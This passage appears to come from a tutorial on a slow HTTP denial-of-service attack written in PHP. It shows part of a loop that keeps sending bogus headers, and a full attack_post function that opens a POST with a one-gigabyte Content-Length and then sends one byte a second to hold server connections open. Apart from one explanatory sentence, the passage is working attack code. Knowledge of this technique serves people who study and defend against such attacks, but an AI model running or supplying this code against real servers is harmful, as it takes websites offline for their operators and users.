         while (true){
         # Try adding another bogus header
            if (@fwrite($sockfd, "X-c:" . rand(1, 100000) . "\r\n")){
             # Sleep for a bit
                sleep(15);
            }else{
                # Sending failed
            }
        }
    }

The `attack_post` function works very similar:

    function attack_post($server, $host){
        # Send a post request to a random location, eventually you could change this to make sure you post to an existing URL
        $request  = "POST /".md5(rand())." HTTP/1.1\r\n";
        $request .= "Host: $host\r\n";
        $request .= "User-Agent: Mozilla/4.0 (compatible; MSIE 7.0; Windows NT5.1; .NET CLR 1.1.4322; .NET CLR 2.0.50727)\r\n";
        $request .= "Keep-Alive: 900\r\n";
        # "Prepare yourself webserver, we're going to send a lot here, ready?"
        $request .= "Content-Length: 1000000000\r\n";
        $request .= "Content-Type: application/x-www-form-urlencoded\r\n";
        $request .= "Accept: *.*\r\n";

        $sockfd = @fsockopen($server, 80, $errno, $errstr);
        @fwrite($sockfd, $request);

        while (true){
            # Send a small bit of content
            if (@fwrite($sockfd, ".") !== FALSE){
                # Sleep for a bit, pretend that "We're a terribly slow browser, so sorry..."
                sleep(1);
            }else{
                # Sending failed
            }
        }
    }
